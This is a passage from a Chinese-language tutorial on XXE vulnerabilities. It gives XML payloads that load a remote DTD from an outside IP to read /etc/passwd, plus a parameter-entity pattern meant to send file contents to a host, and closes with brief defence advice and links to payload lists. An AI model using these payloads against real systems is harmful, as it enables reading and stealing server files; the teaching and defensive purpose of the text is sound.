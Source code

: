 ##### 5）过滤了ENTITY关键字

DTD文档支持这么一种定义，直接在定义文档类型的时候引入外部DTD文档，也就是在xml文档的第三部分使用ENTITY，所以在DTD文档类型定义中过滤了ENTITY的情况下，同样可以实现以上的四种方法。

```xml
<!DOCTYPE svg SYSTEM "http://118.89.16.36/evil.dtd">   #????  test?  svg?
<root>&test;</root>
evil.dtd
<!ENTITY test SYSTEM "file:///etc/passwd">
```

可以看到在文档内容的部分使用了恶意的代码构造。

##### 6）行不通的方法

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY %param1 "file:///c:/1.txt">
<!ENTITY %param2 "http://127.0.0.1/?payload=%param1">
%param2;
]>
```

这样看起来可以读取系统文件内容来作为payload，是个可用的方法。
但是这样做行不通，原因是不能在实体定义中引用参数实体，即有些解释器不允许在内层实体中使用外部连接，无论内层是一般实体还是参数实体。

#### B) 无回显的XXE漏洞—Blind XXE



### xxe防御

1. 使用开发语言提供的禁用外部实体的方法;
2. 过滤用户提交的XML数据;
   1. 检查所使用的底层xml解析库，默认禁止外部实体的解析
   2. 使用第三方应用代码及时升级补丁



参考：

[xxe payload]( https://gist.github.com/staaldraad/01415b990939494879b4#file-xxe_payloads )

[xxe 入门]( https://blog.csdn.net/zz_Caleb/article/details/90900214 )

[XXE Explanation and Exploitation]( https://www.exploit-db.com/docs/45374 ): VulnHub -- XXE 1



